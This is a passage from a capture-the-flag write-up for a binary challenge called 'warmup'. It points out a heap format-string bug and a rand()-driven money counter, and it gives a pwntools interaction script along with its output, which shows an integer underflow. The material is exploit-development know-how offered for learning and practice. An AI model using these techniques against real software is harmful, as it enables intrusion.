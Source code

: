 ```c
    if ( guess == lucky_num )
      *player->money += bet + rand();
    else
      *player->money -= bet + rand();
  }
}
```
That's long, but there are a few points of obvious interest:
1. `printf()` occurs with a user-controlled format string (located on the **heap**, not the stack) of 0x80+ bytes. This happens only once, so unless we're willing to dig in with a [one-shot format string exploit](https://ctftime.org/writeup/16081), we'll probably have to do something else here.
2. There's a big while loop involving the use of `rand()` to modify `*player->money`. The purpose of this is not immediately clear; why would we need to edit `money` anyway?

In any case, the presence of `rand()` in a CTF usually indicates the need to predict its pseudorandom output.

## Breaking `rand()`
We'll start by setting up a standard script to interact with the remote:
```python
from pwnscripts import *
from re import findall
context.binary = 'warmup'
context.libc_database = '../libc-database'
context.libc = 'libc-2.23.so'
def start(s: bytes):
    r = remote('192.46.228.70', 32337)
    r.sendlineafter('want? ', '0')
    r.sendafter('name: ', s)
    for _ in range(3): r.recvline()
    return r,r.recvline()
def findnum(s: bytes): return int(findall(b'[0-9]+', s)[0])
def show_money(): # name is a bit of a misnomer, this tries to grab the money displayed at the start of a round
    r.recvuntil('Your money: ')
    return findnum(r.recvline())
def Round(bet: int, choice: int):
    r.sendlineafter('(= 0 to exit): ', str(bet))
    r.sendlineafter('choice: ', str(choice))
    return findnum(r.recvline())
r, _ = start('\n')
log.info('money (should be 0): %d' % show_money())
log.info('luckynum (trying 1): %d' % Round(1,1))
r.interactive()
```
Resulting in
```
[x] Opening connection to 192.46.228.70 on port 32337
[x] Opening connection to 192.46.228.70 on port 32337: Trying 192.46.228.70
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] money (should be 0): 0
[*] luckynum (trying 1): 1160767648
[*] Switching to interactive mode
Round: 2
Your money: 18446744072331449552 ZWD
Your bet (= 0 to exit):
```
(That big number at the end is `0xffffffffaddbd4d0L`; the natural consequence of `money` underflowing from 0)
